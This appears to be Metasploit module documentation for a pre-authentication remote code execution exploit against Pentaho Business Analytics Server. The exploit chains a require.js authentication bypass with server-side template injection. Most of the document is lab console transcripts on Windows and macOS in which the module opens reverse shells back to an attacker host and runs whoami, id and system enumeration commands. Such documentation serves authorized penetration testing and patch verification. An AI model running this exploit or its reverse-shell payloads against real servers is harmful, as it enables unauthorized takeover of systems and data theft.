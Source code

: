 ## Vulnerable Application  

Hitachi Vantara Pentaho Business Analytics Server prior to versions 9.4.0.1 and 9.3.0.2, including 8.3.x is
vulnerable to a number of vulnerabilities found and outlined by Harry Withington in the following blog post, 
[Pentah0wnage: Pre-Auth RCE in Pentaho Business Analytics Server](https://research.aurainfosec.io/pentest/pentah0wnage/)

This module exploits two vulnerabilities which results in unauthenticated code execution in the context of the user
running the Pentaho Business Analytics Server. The first vulnerability is an authentication bypass which stems from a 
regex that allows any url that ends `require.js` to bypass authentication. The second is a server side template 
injection which allows java code to be injected into the `url` parameter when sent to the following endpoint: 
`/api/ldap/config/ldapTreeNodeChildren`

### Setup

A vulnerable application can be downloaded for either Windows Linux or Mac from the Hitachi Vantara
[downloads](https://www.hitachivantara.com/en-us/products/lumada-dataops/data-integration-analytics/download-pentaho.html)
page.
  
Once downloaded, extract and run the installer. The installation wizard will ask you to set a password for the Pentaho
Business server. Once installation completes it will ask if you would like to launch the application. 

## Verification Steps  
  
1. Start msfconsole  
1. Do: `use multi/http/pentaho_business_server_authbypass_and_ssti`  
1. Set the `RHOST` and `LHOST` options
1. Ensure the `TARGET` option corresponds to the environment being targeted.  
1. Run the module  
1. Receive a session in the context of the user that's running the Pentaho Business Server.  
  
## Scenarios

### Windows 11 22H2 pentaho-business-analytics-9.3.0.0-428-x64.exe
```
msf6 > use multi/http/pentaho_business_server_authbypass_and_ssti
[*] Using configured payload cmd/unix/reverse_openssl
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set rhosts 172.16.199.138
rhosts => 172.16.199.138
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set target 2
target => 2
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > options

Module options (exploit/multi/http/pentaho_business_server_authbypass_and_ssti):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.138   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pentaho         yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.16.199.1     yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Attempting to exploit...
[+] Exploit successful
[*] Powershell session session 1 opened (172.16.199.1:4444 -> 172.16.199.138:51232) at 2023-05-03 15:07:11 -0400

PS C:\Pentaho\server\pentaho-server\tomcat> whoami
nt authority\local service
PS C:\Pentaho\server\pentaho-server\tomcat> systeminfo

Host Name:                 MSFDEVICE
OS Name:                   Microsoft Windows 11 Home
OS Version:                10.0.22621 N/A Build 22621
```

### Mac OS X Catalina pentaho-business-analytics-9.3.0.0-428-x64.app
```
msf6 > use multi/http/pentaho_business_server_authbypass_and_ssti
[*] Using configured payload cmd/unix/reverse_openssl
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > options

Module options (exploit/multi/http/pentaho_business_server_authbypass_and_ssti):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.132   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pentaho         yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Attempting to exploit...
[+] Exploit successful
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.132:49391) at 2023-05-03 15:14:07 -0400

id
uid=501(msfuser) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
uname -a
Darwin msfusers-Mac.local 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64 x86_64
```